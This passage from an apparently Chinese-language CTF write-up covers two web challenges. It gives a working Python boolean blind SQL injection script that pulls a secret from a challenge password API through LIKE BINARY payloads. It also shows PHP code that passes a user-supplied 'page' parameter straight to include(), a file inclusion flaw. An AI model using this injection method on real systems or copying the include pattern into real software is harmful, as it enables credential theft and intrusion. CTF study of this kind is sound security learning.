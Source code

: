 增加注释符回显正常

![image-20230501190808334](image-20230501190808334.png)

确定存在 SQL 注入，应该是盲注，

经过我的尝试，应该可以根据存在或者不存在进行布尔盲注。

```python
import requests
import string

target = 'http://logical.tamuctf.com/api/chpass'

alphabet = string.ascii_letters + string.digits + '{$}#!?<>=*+.(),@^-_'

flag = list('gigem{')

while flag[-1] != '}':
    for char in alphabet:
        r = requests.post(target, data={'username': f'admin\' and PASSWORD LIKE BINARY "{"".join(flag)}{char}%"-- '}) # admin' and PASSWORD LIKE BINARY "gigem{a%"-- 
        if 'not exists' not in r.text:
            flag.append(char)
            print(''.join(flag))
            break
```

 

### Blackbox

文件包含读取到 index.php 源码：

```php
<?php
$resource = 'home';

require './config.php';
require './util.php';

set_include_path(INCLUDE_DIR);

if(isset($_GET['page'])) {
  $resource = $_GET['page'];
  include($_GET['page'] . '.php');
} else {
  include('home.php');
}
?>

```
